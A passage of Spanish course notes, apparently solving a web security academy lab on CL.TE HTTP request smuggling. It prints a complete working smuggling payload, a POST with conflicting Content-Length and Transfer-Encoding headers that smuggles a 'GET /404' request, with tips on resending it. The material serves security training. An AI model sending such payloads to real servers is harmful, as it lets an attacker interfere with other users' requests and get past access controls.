 En esta clase finalizamos el laboratorio dedicado a la vulnerabilidad de HTTP request smuggling basada en CL.TE. Tras haber confirmado el comportamiento anómalo del servidor en las clases anteriores, aquí completamos la explotación para lograr el objetivo final del laboratorio.

Utilizamos el mismo punto vulnerable para smugglear una petición maliciosa que se interpretará de forma distinta entre el frontend y el backend, provocando que una solicitud aparentemente inocua desencadene una respuesta inesperada. Este ataque demuestra cómo un atacante podría manipular el flujo de peticiones HTTP para obtener acceso no autorizado o interferir con otros usuarios, cerrando así el ciclo completo de explotación de esta técnica.

Solucion
entonce conociendo el payload vamos a realizar el ataque
(POST / HTTP/1.1

Host: 0a11006e04c3862f83d5509600060068.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Content-Length: 35

Transfer-Encoding: chunked



0



GET /404 HTTP/1.1

X-Ignore: X)

**==Nota: Tenemos que tener cuidado con los espacios==**
una vez aplicado le damos send y incistimos hasta que nos de el error 404
![Pasted image 20250806195655.png](imagenes/Pasted image 20250806195655.png)
